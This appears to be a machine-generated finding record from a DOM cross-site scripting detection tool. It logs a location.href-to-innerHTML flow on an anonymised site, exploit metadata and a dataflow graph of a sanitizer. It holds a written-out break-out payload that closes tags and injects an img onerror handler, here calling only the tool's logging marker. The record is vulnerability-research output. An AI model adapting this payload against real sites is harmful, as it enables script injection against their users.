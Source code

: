// Finding: b41807b0-6748-415e-bd29-94dbd86b4c0f
// Finding.url: https://pub.example26.com/?spm=a2e114.14922392.0.0.4b2575a5qDtVkw#!%2Findex%3FcurValue%3Dnav_2%26spm%3D"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('4e5d34b9e4bf4e2f9d2d97a783b7201c')><!--/*
// Finding.parentloc: https://pub.example26.com/?spm=a2e114.14922392.0.0.4b2575a5qDtVkw#!%2Findex%3FcurValue%3Dnav_2%26spm%3D"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('4e5d34b9e4bf4e2f9d2d97a783b7201c')><!--/*
// Finding.domain: pub.example26.com
// Finding.base_domain: example26.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 4
// Sanitizer.name: Tt
// Sanitizer.location: https://g.example27.com/mm/common-minisite/20200528.114942.131/common-minisite/views/pages/index.js - tmpl:1:3515
// Finding.begin: 701
// Finding.end: 706
// Finding.original_uuid: ada26fd9-f802-472d-abf7-ca2699bb31d4
// Finding.TwentyFiveMillionFlowsId: -457058269
// Finding.script: https://g.example27.com/mm/union-minisite/0.0.4/boot.js
// Finding.line: 1
// Exploit.uuid: 4e5d34b9-e4bf-4e2f-9d2d-97a783b7201c
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: mx-view
// Exploit.quote_type: "
// Exploit.tag: div
// Exploit.break_out: %2Findex%3FcurValue%3Dnav_2%26spm%3D"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: %2Findex%3FcurValue%3Dnav_2%26spm%3D"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 65
// Exploit.end_taint_url: 91
// Exploit.replace_begin_url: 65
// Exploit.replace_end_url: 91
// Exploit.replace_begin_param: 466
// Exploit.replace_end_param: 502
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: true
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1414460513
// DepGraph.sanitizer_hash: 78474769
// Removed LR concats 
// Approximated Implementation for: replace([!')(*]/g: 1, s: 0, u: 0, m: 0, i: 0 [escapes(': 1, *: 1, (: 1, ): 1), function_rhs: true], 'function(e){return wt[e]}') - Other Exception: ReferenceError: wt is not defined 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: %2A"];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /[!')(*]/"];
n7 [shape=box, label="Lit: "];
n8 [shape=box, label="Var: x"];
n9 [shape=box, label="Var: x"];
n10 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n1;
n3 -> n4;
n8 -> n3;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n10 -> n9;
}